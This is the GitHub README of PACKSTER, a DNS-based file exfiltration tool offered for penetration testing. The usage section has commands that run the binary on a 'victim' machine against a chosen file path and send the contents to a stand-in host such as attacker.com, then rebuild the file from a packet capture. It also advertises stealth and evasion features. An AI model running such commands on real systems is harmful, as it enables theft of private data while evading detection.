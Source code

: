# PACKSTER

## Overview
PACKSTER is a powerful exfiltration tool designed for demonstrating efficient data exfiltration and security testing. It allows for controlled and stealthy data exfiltration by utilizing DNS queries, making it a valuable tool for cybersecurity professionals and penetration testers.

## Features
- Fast and reliable data exfiltration
- Supports multiple transport methods
- Customizable payload handling
- Stealth mode for evasion techniques
- Logging and error handling for debugging

## Watch The Demo

[![Packster Demo](https://raw.githubusercontent.com/Sayan690/Packster/refs/heads/main/resources/packster.png)](https://www.youtube.com/watch?v=rXOXy-RJSDQ)

## Installation
### Prerequisites
Ensure you have Python installed on your system. PACKSTER requires Python 3.x.

### Clone The Repository
```bash
git clone https://github.com/Sayan690/packster.git
cd packster
```

### Get The [Release Binaries](https://github.com/Sayan690/Packster/releases/)

OR

### Compile It Locally

Requirements - pyinstaller

#### Clone The Repository
```bash
git clone https://github.com/Sayan690/packster.git
cd packster
```

#### Compile Using Pyinstaller

```bash
pyinstaller -F packety.py --icon=resources/packster.ico
```

### Install Dependencies
```bash
pip install -r requirements.txt
```

## Usage
To run PACKSTER, follow these steps:

- Start the listener on the attacker side

```bash
tcpdump -i any -w capture.pcap
```

- Transfer the [packster binary](https://github.com/Sayan690/Packster/releases/) to the victim side and execute

```bash
.\packster.exe -f C:\Path\To\File -a attacker.com

./packster.exe -f /Path/To/File -a 10.10.10.10
```

- After the process exits printing "done.", exit out from tcpdump, and run `filtrz.py`

```bash
python3 filtrz.py -a attacker.com -c capture.pcap -o output_file_name.txt
```

## Disclaimer
PACKSTER is intended for educational and security testing purposes only. The author is not responsible for any misuse of this tool.

## Author
Developed by **Sayan Ray** [@BareBones90](https://x.com/BareBones90)

## License
This project is licensed under the MIT License - see the LICENSE file for details.
